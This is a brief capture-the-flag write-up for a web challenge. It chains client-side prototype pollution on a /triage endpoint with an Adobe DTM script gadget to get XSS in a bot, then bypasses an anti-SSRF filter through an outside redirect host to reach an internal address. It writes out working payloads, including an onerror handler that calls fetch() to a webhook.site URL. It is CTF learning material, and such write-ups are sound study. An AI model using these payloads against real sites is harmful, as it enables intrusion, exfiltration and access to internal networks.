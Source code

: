 + ssrf filter is being used.
+ The request library is not latest.
So, according to the CVE:https://github.com/request/request/issues/3442
```
The Request library can be leveraged to initiate an HTTP / HTTPS connection and potentially gather information about the victim's internal infrastructure even if there's anti-SSRF filtering in place.
```
+ To do ssrf we need xss in the bot.
+ We have client side prototype pollution in /triage endpoint
`/triage?__proto__.test=test`
+ gadget: 
```
<script
      src="/public/js/launch-ENa21cfed3f06f4ddf9690de8077b39e81-development.min.js"
      async
```
+ According to Blackfan's repo:
We got the gadget: https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/adobe-dtm.md
+ `triage?__proto__[SRC]=<img/src/onerror%3dalert(1)>` This will give xss
+ We will give id,url and report as follows:
`{"id":"1","url":"asd","report":"1&__proto__[SRC]=<img/src/onerror%3dfetch(%27https://webhook.site/2e4ba32c-fabb-473c-945f-767fb2011b6e%27)>"}`
+ To bypass the ssrf filter:
`/check_valid_url?url=https://tellico.fun/redirect.php?target=http://172.31.0.2:5000/bounty`
+ Sending the above request along with auth-secret will give the flag
